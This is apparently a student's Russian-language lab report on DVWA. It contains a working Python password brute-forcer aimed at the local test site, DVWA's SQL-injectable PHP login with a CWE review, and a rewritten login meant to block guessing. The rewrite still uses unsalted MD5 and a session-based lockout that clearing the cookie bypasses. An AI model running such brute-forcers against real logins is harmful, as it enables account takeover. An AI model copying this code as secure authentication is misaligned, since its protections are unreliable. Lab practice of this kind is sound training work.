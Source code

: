 # pr3
## Установка
Архив DVWA был скачан с официального ресурса github, затем установлен с использованием дистрибутива OSPanel.
![image](https://github.com/user-attachments/assets/ba34beeb-ad1e-4daf-986c-7c5c8635b7bf)
Адрес: http://dvwa.local/login.php
![image](https://github.com/user-attachments/assets/4e7ff5dd-26b2-4344-8767-ff9e571b4cad)
## Задания
1.Необходимо разработать переборщик паролей для формы в задании Bruteforce на сайте dvwa.local.
Было решено помочь программе установкой префикса "passwo" для того, чтобы уменьшить время подбоа пароля.
```python
import itertools
import requests
import time

# Настройки
URL = "http://dvwa.local/vulnerabilities/brute/"
USERNAME = "admin"
CHARSET = 'abcdefghijklmnopqrstuvwxyz'
PASSWORD_LENGTH = 8
PREFIX = "passwo"
SESSION = requests.Session()

# Устанавливаем cookie для авторизации
SESSION.cookies.set("PHPSESSID", "mgg4vgt0fcdtg672ead6ujaa02a5eu1h")
SESSION.cookies.set("security", "low")


def generate_passwords(prefix, length, charset):
    remaining_length = length - len(prefix)
    return (
        prefix + ''.join(comb)
        for comb in itertools.product(charset, repeat=remaining_length)
    )


def is_password_correct(url, username, password):
    params = {'username': username, 'password': password, 'Login': 'Login'}
    try:
        response = SESSION.get(url, params=params)
        return "Welcome to the password protected area" in response.text
    except requests.exceptions.RequestException as e:
        print(f"[-] Ошибка при запросе: {e}")
        return False


def main():
    start_time = time.time()
    print("[*] Начинаем подбор пароля...")

    for password in generate_passwords(PREFIX, PASSWORD_LENGTH, CHARSET):
        print(f"[*] Пробуем пароль: {password}")
        if is_password_correct(URL, USERNAME, password):
            print(f"[+] Пароль найден: {password}")
            break
    else:
        print("[-] Пароль не найден.")

    end_time = time.time()
    print(f"[+] Время выполнения: {end_time - start_time:.2f} секунд")


if __name__ == "__main__":
    main()
```
Результат работы программы:
![Uploading image.png…]()
2. Проанализировать код и сделать кодревью, указав слабые места. Слабость уязвимого кода необходимо указать с использованием метрики CWE (база данных [cwe.mitre.org](http://cwe.mitre.org))

``` PHP
<?php

if( isset( $_GET[ 'Login' ] ) ) {
	// Get username
	$user = $_GET[ 'username' ];
	// Get password
	$pass = $_GET[ 'password' ];
	$pass = md5( $pass );
	// Check the database
	$query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
	$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
	if( $result && mysqli_num_rows( $result ) == 1 ) {
		// Get users details
		$row    = mysqli_fetch_assoc( $result );
		$avatar = $row["avatar"];
		// Login successful
		$html .= "<p>Welcome to the password protected area {$user}</p>";
		$html .= "<img src=\"{$avatar}\" />";
	}
	else {
		// Login failed
		$html .= "<pre><br />Username and/or password incorrect.</pre>";
	}
	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}
?>
```
1)SQL Injection (CWE-89): В коде выполняется прямое использование переменных из входных данных ($_GET['username'] и $_GET['password']) в SQL-запросе без какой-либо защиты. Это означает, что злоумышленник может вставить вредоносный SQL-код через параметры запроса и изменить запрос так, чтобы он всегда возвращал истинный результат (например, взломав пароли или получив доступ к базе данных).

2)Код не имеет защиты от атак перебора паролей, таких как блокировка аккаунта или использование капчи после нескольких неудачных попыток входа. Это позволяет злоумышленнику бесконечно пытаться угадать пароль, например, с использованием перебора.

3)Отсутствие защиты от CSRF атак (CWE-352):Код не включает защиту от атак подделки межсайтовых запросов (CSRF). Это значит, что злоумышленник может создать фальшивую форму на другом сайте, которая будет отправлять запросы на авторизацию от имени жертвы, если она уже авторизована на данном сайте.
3.Разработать свою систему авторизации на любом языке, исключающий взможность подбора паролей разработнным переборщиком паролей в задании 1. Возможно исправление авторизации из dvwa.local *Требования к системе авторизации*

- Система авторизации должна использовать запросы GET с параметрами, аналогичными из задания bruteforce dvwa
  vhod.php
  ``` PHP
  <?php

session_start();

if (!isset($_SESSION['failed_attempts'])) {
    $_SESSION['failed_attempts'] = 0;
}

if (!isset($_SESSION['last_attempt_time'])) {
    $_SESSION['last_attempt_time'] = 0;
}

$max_attempts = 5;
$block_duration = 300; // 5 минут

if ($_SESSION['failed_attempts'] >= $max_attempts && (time() - $_SESSION['last_attempt_time']) < $block_duration) {
    $remaining_time = $block_duration - (time() - $_SESSION['last_attempt_time']);
    die("Too many failed login attempts. Please try again after " . ceil($remaining_time / 60) . " minutes.");
}

$message = "";
if (isset($_GET['Login'])) {
    if (isset($_GET['username']) && isset($_GET['password']) && isset($_GET['user_token'])) {
        // Генерация токена для предотвращения CSRF-атак
        if (!isset($_SESSION['user_token']) || empty($_SESSION['user_token'])) {
            $_SESSION['user_token'] = bin2hex(random_bytes(32));
        }

        $user = filter_input(INPUT_GET, 'username', FILTER_SANITIZE_STRING);
        $pass = filter_input(INPUT_GET, 'password', FILTER_SANITIZE_STRING);
        $user_token = filter_input(INPUT_GET, 'user_token', FILTER_SANITIZE_STRING);

        if ($user_token !== $_SESSION['user_token']) {
            $message = "Invalid token. Please refresh the page and try again.";
        } else {

            $mysqli = new mysqli("localhost", "root", "", "dvwa");

            if ($mysqli->connect_error) {
                die("Database connection failed: " . $mysqli->connect_error);
            }

            // Использование подготовленных выражений для защиты от SQL-инъекций
            $stmt = $mysqli->prepare("SELECT * FROM `users` WHERE user = ? AND password = ?");
            $hashed_password = md5($pass);
            $stmt->bind_param("ss", $user, $hashed_password);
            $stmt->execute();
            $result = $stmt->get_result();

            if ($result && $result->num_rows === 1) {
                $row = $result->fetch_assoc();
                $avatar = htmlspecialchars($row["avatar"], ENT_QUOTES, 'UTF-8');
                echo "<p>Welcome to the password protected area " . htmlspecialchars($user, ENT_QUOTES, 'UTF-8') . "</p>";
                echo "<img src=\"" . $avatar . "\" />";

                $_SESSION['failed_attempts'] = 0;
                exit;
            } else {
                $_SESSION['failed_attempts']++;
                $_SESSION['last_attempt_time'] = time();
                $message = "Username and/or password incorrect.";
            }

            $stmt->close();
            $mysqli->close();
        }
    } else {
        $message = "Please fill in all fields.";
    }
}

if (!isset($_SESSION['user_token']) || empty($_SESSION['user_token'])) {
    $_SESSION['user_token'] = bin2hex(random_bytes(32));
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login</title>
</head>
<body>
    <form method="get">
        <input type="hidden" name="user_token" value="<?php echo $_SESSION['user_token']; ?>">
        <label for="username">Username:</label>
        <input type="text" id="username" name="username" required>
        <br>
        <label for="password">Password:</label>
        <input type="password" id="password" name="password" required>
        <br>
        <button type="submit" name="Login">Login</button>
    </form>

    <?php if (!empty($message)): ?>
        <p style="color: red;"><?php echo htmlspecialchars($message, ENT_QUOTES, 'UTF-8'); ?></p>
    <?php endif; ?>
</body>
</html>
```

